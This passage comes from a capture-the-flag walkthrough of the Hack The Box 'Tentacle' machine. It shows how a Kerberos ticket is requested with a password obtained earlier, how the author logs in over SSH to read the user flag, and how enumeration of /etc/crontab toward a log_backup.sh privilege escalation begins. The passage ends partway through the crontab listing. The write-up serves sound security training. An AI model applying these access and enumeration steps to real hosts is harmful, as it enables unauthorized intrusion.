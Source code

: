 Next thing we need to do is request a ticket granted ticket (TGT).
We can use the command **kinit** to renew our kerberos ticket:

```
──(kali㉿kali)-[~]
└─$ kinit j.nakazawa   
Password for j.nakazawa@REALCORP.HTB: 
```
Use the password we have obtained earlier on.

You may notice nothing happened, but we can actually see if the ticket is granted using **klist**:
```
┌──(kali㉿kali)-[~]
└─$ klist                                                                                                                                    1 ⨯
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
07/30/2022 11:57:14  07/31/2022 11:57:14  krbtgt/REALCORP.HTB@REALCORP.HTB

```
Oh boy, oh boy, are you getting exited? I am! Let's try to login with ssh:
```
┌──(kali㉿kali)-[~]
└─$ ssh j.nakazawa@10.129.105.158     
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sat Jul 30 17:14:41 BST 2022 from 10.10.14.53 on ssh:notty
There were 20 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[j.nakazawa@srv01 ~]$ 

```
Aaaah yeah, it's our first flag! 
```
[j.nakazawa@srv01 ~]$ ls
user.txt
[j.nakazawa@srv01 ~]$ cat user.txt
3c67ae9ad324[...]

```
If your ssh connection seems to fail, make sure **srv01.realcorp.htb** is set as the first host for the IP 10.10.10.224 in
your **etc/hostS** file. I don't know why but it didn't work for me when my first host was tentacle.htb.

## Exploiting the log_backup script

After some enumerating **one eternity later** I found a **log_backup.sh** script, using **cat /etc/crontab**.
```
[j.nakazawa@srv01 ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
```